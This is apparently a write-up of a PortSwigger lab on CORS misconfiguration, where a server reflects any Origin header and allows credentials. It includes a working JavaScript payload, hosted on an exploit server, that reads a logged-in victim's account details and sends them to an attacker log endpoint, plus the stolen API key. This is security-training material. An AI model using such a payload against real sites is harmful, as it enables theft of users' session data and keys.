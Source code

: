 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6e584794-2f89-4486-b9ef-0550f5dac779)

## Solution :

### Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
It then responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (Access-Control-Allow-Credentials: true) and 
so will be processed in-session.

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. 


First let's login as wiener using the credentials given - wiener:peter

Once logged in , we can see that there is an email update functionality & the API key of wiener.

In the HTTP history tab, we can see that the GET request to /accountDetails contains the ACAC=true header in its response.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/10b1b9ae-66e5-4992-886b-cc96353e4251)

This meaans that if we can able to exploit CORS here then we can able to get the session cookie, API key etc of the user.

Note that there is no Origin header in the request that's why we don't see any Access-Control-Allow-Origin header too.

Exploiting CORS misconfiguration -

If we try to provide Origin: malicious.com , we can see that there is Access-Control-Allow-Origin: malicious.com & Access-Control-Allow-Credentials: true in the response.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/82e9284e-6b17-4830-9feb-f1c14d5108f4)

This means the server takes the Origin provided in the request and sends it back in the response with the header Access-Control-Allow-Origin: <origin.com>.

Go to exploit server and paste the following code.

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0aca000b03408aa480b9856d00e600f5.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/422b112f-65fe-425d-836f-be5d47115a0f)

go to access log

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/57da86a7-036d-4d4c-b882-b58f7fbc3e2c)

Apikey=`oiWxRsIrwvyUZRI3xmNSWDEoFNmtR9qY`

go and submit solution to solve the lab.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/78db241e-73ea-4a4d-9d4b-c846f84d0889)

